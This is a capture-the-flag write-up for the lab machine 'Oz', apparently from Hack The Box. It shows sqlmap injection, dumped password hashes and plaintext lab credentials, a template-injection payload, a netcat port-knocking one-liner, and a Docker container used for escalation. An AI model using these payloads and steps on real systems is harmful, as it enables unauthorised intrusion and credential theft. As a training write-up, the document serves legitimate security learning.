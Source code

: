 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/T13BPi0.png)
###### PORT `80`
![](https://i.imgur.com/mWSFWrX.png)
![](https://i.imgur.com/G1JAqNN.png)
- When i Open that, it is some thinh like username checker.
	- ![](https://i.imgur.com/wV52A5I.png)
	- ![](https://i.imgur.com/XHHSY2j.png)
	- ![](https://i.imgur.com/FqfDIrx.png)
- This means, there will be some kinds database, so i can try sqli
	- ` sqlmap -u "http://oz.htb/users/*"`
	- ![](https://i.imgur.com/gMjxDgd.png)
```shell
+----+----------------------------------------------------------------------------------------+-------------+
| id | password                                                                               | username    |
+----+----------------------------------------------------------------------------------------+-------------+
| 1  | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin       |
+----+----------------------------------------------------------------------------------------+-------------+

+----+--------------------------------------------------------------------------------------------------------------------------------+----------+
| id | desc                                                                                                                           | name     |
+----+--------------------------------------------------------------------------------------------------------------------------------+----------+
| 1  | Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.                                                              | GBR-987  |
| 2  | Where did all these damn monkey's come from!?  I need to call pest control.                                                    | GBR-1204 |
| 3  | Note to self: Toto keeps chewing on the curtain, find one with dog repellent.                                                  | GBR-1205 |
| 4  | Nothing to see here... V2hhdCBkaWQgeW91IGV4cGVjdD8=                                                                            | GBR-1389 |
| 5  | Think of a better secret knock for the front door.  Doesn't seem that secure, a Lion got in today.                             | GBR-4034 |
| 6  | I bet you won't read the next entry.                                                                                           | GBR-5012 |
| 7  | HAHA! Made you look.                                                                                                           | GBR-7890 |
| 8  | Dorthi should be able to find her keys in the default folder under /home/dorthi/ on the db.                                    | GBR-7945 |
| 9  | Seriously though, WW91J3JlIGp1c3QgdHJ5aW5nIHRvbyBoYXJkLi4uIG5vYm9keSBoaWRlcyBhbnl0aGluZyBpbiBiYXNlNjQgYW55bW9yZS4uLiBjJ21vbi4= | GBR-8011 |
| 10 | You are just wasting time now... someone else is getting user.txt                                                              | GBR-8042 |
| 11 | Look... now they've got root.txt and you don't even have user.txt                                                              | GBR-8457 |
| 12 | db information loaded to ticket application for shared db access                                                               | GBR-9872 |
+----+--------------------------------------------------------------------------------------------------------------------------------+----------+
```

- ![](https://i.imgur.com/nDM6AQr.png)
` wizard.oz : wizardofoz22 ` ${{<%[%'"}}%\ 
![](https://i.imgur.com/c6baHGV.png)
- Nothing here so i tried to dread files using the sqli
	- ![](https://i.imgur.com/0ZZm0ar.png)
![](https://i.imgur.com/7EZoTVR.png)
- I coudnt get more paths, so i went back to the page and tried to create ticket.
![](https://i.imgur.com/88PnIoH.png)
`{{config.items()}}`
	`dorthi:N0Pl4c3L1keH0me - mysql+pymysql://dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb
`
### Gaining Access
![](https://i.imgur.com/UruPcfO.png)
![](https://i.imgur.com/FUd4LXY.png)
## Internal
### Enumeration
```
/app/ticketer # cat /.secret/knockd.conf
[options]
	logfile = /var/log/knockd.log

[opencloseSSH]

	sequence	= 40809:udp,50212:udp,46969:udp
	seq_timeout	= 15
	start_command	= ufw allow from %IP% to any port 22
	cmd_timeout	= 10
	stop_command	= ufw delete allow from %IP% to any port 22
	tcpflags	= syn
```
- The Knockd configuration is used to configure the Knockd service, which is a utility that allows you to open a port on a firewall (in this case, ufw) by sending a specific sequence of UDP packets to a specific port.
### Gaining Access
```shell
┌──(rexder㉿HunterMachine)-[~]
└─$ ports="40809 50212 46969"; for port in $ports; do echo "a" | nc -u -w 1 10.10.10.96 ${port}; sleep 0.5; done; echo "knock done"; nc -w 1 -nvv 10.10.10.96 22
knock done
(UNKNOWN) [10.10.10.96] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.7
```
```shell
rexder@HunterMachine ~ [1]> nc -nvu 10.10.10.96 40809
(UNKNOWN) [10.10.10.96] 40809 (?) open
^C
rexder@HunterMachine ~ [1]> nc -nvu 10.10.10.96 50212
(UNKNOWN) [10.10.10.96] 50212 (?) open
^C
rexder@HunterMachine ~ [1]> nc -nvu 10.10.10.96 46969
(UNKNOWN) [10.10.10.96] 46969 (?) open
^C

rexder@HunterMachine ~/C/H/M/oz> ssh dorthi@oz.htb -i id_rsa.pem
dorthi@oz:~$ ls
user.txt
dorthi@oz:~$ cat user.txt
```
### Maintaining Access
![](https://i.imgur.com/kpaKFFa.png)
![](https://i.imgur.com/OcAzOh1.png)
- `MYSQL_ROOT_PASSWORD=SuP3rS3cr3tP@ss`
![](https://i.imgur.com/CxL9S1V.png)
https://github.com/portainer/portainer/issues/493
![](https://i.imgur.com/2Ctx79R.png)
- Created a new Container
![](https://i.imgur.com/Qy50MH0.png)
- I made it to sh because as docker their is no bash installed
![](https://i.imgur.com/uh8eQYQ.png)

# Random Notes